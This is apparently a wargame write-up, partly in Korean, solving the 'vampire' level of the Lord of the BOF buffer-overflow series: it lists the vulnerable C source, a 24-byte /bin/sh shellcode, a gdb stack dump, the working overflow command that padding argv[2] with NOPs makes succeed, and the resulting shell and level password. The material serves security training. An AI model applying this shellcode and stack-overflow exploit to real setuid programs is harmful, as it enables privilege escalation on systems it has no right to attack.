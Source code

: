 ```yaml
---
layout: post
title:  "[LOB]Level09. vampire"
subtitle:   "[LOB]troll → vampire"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : check 0xbfff

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많음 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.

```sh
Starting program: /home/troll/./aampire `python -c 'print "A"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*65000'`

Breakpoint 1, 0x80484b9 in main ()
(gdb) x/32x $esp
0xbffefcd8:	0xbffefce0	0xbffefe63	0x41414141	0x41414141
0xbffefce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefcf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefd08:	0x41414141	0xbfbfffff	0x00000000	0xbffefd54
0xbffefd18:	0xbffefd64	0x40013868	0x00000003	0x08048380
0xbffefd28:	0x00000000	0x080483a1	0x08048430	0x00000003
0xbffefd38:	0xbffefd54	0x080482e0	0x080484fc	0x4000ae60
0xbffefd48:	0xbffefd4c	0x40013e90	0x00000003	0xbffefe4d
```

argv[2]에 NULL값을 65000개 넣었더니 esp값이 0xbffe영역을 가리키고 있다.



```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*20+"\xe0\xfc\xfe\xbf"'` `python -c 'print "\x90"*65000'`
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAA����
bash$ my-pass
euid = 509
music world
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```



##### **vampire / music world**